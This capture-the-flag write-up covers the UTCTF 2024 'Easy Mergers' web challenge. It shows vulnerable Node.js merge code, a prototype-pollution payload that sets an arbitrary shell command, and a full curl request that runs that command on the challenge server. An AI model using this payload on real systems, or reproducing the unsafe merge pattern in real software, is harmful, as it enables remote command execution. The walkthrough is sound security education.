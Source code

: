 ```yaml
---
title: "Easy Mergers v0.1"
description: "Tired of getting your corporate mergers blocked by the FTC"
points: 787
solves: 143
author: Jozef Steinhübl 
---
```


![easy mergers](https://raw.githubusercontent.com/GerlachSnezka/utctf/main/assets/2024-web-easymergers.png)

For this assignment, we had the page and code for this site. On the site, we can add fields and then create a company or edit it (absorb it).

![easy mergers web](https://raw.githubusercontent.com/GerlachSnezka/utctf/main/assets/2024-web-easymergers-web.png)

We'll open dev tools to see what the requests look like. We notice a very interesting thing, namely that with `absorbCompany` the request returns a JSON containing `stderr` with the message `/bin/sh: 1: ./merger.sh: Permission denied\n`. This means that the script `merger.sh` is executed on the server.

![easy mergers weird behaviour](https://raw.githubusercontent.com/GerlachSnezka/utctf/main/assets/2024-web-easymergers-weird-behaviour.png)

Thanks to the fact that we have the source code, we can take a closer look at what's going on:
```js
function isObject(obj) {
    return typeof obj === 'function' || typeof obj === 'object';
}

var secret = {}

const { exec } = require('child_process');

process.on('message', function (m) {
    let data = m.data;
    let orig = m.orig;
    for (let k = 0; k < Math.min(data.attributes.length, data.values.length); k++) {
        if (!(orig[data.attributes[k]] === undefined) && isObject(orig[data.attributes[k]]) && isObject(data.values[k])) {
            for (const key in data.values[k]) {
                orig[data.attributes[k]][key] = data.values[k][key];
            }
        } else if (!(orig[data.attributes[k]] === undefined) && Array.isArray(orig[data.attributes[k]]) && Array.isArray(data.values[k])) {
            orig[data.attributes[k]] = orig[data.attributes[k]].concat(data.values[k]);
        } else {
            orig[data.attributes[k]] = data.values[k];
        }
    }
    cmd = "./merger.sh";

    if (secret.cmd != null) {
        cmd = secret.cmd;
    }

    var test = exec(cmd, (err, stdout, stderr) => {
        retObj = {};
        retObj['merged'] = orig;
        retObj['err'] = err;
        retObj['stdout'] = stdout;
        retObj['stderr'] = stderr;
        process.send(retObj);
    });
    console.log(test);
});
```

Looking at it for the first time, we might not say there would be a bug since there is no way to replace `cmd`. However.... this is not true because of JS. In JS there is something called prototype pollution attack. For example, you can find more [here](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)

So we can exploit this attack and send a POST request with this body:
```json
{
  "attributes": ["__proto__"],
  "values": [{ "cmd": "cat flag.txt" }]
}
```

The `flag.txt` probably exists, since it is also in our codebase.

```sh
#!/bin/bash

curl 'http://guppy.utctf.live:8725/api/absorbCompany/0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-GB,en;q=0.9,sk-SK;q=0.8,sk;q=0.7,en-US;q=0.6' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/json' \
  -H 'Cookie: connect.sid=YOURSID' \
  -H 'Origin: http://guppy.utctf.live:8725' \
  -H 'Referer: http://guppy.utctf.live:8725/' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36' \
  --data-raw '{"attributes":["__proto__"],"values":[{"cmd": "cat flag.txt"}]}' \
  --insecure
```

And we get the flag in the stdout field:
```
utflag{p0lluted_b4ckdoorz_and_m0r3}
```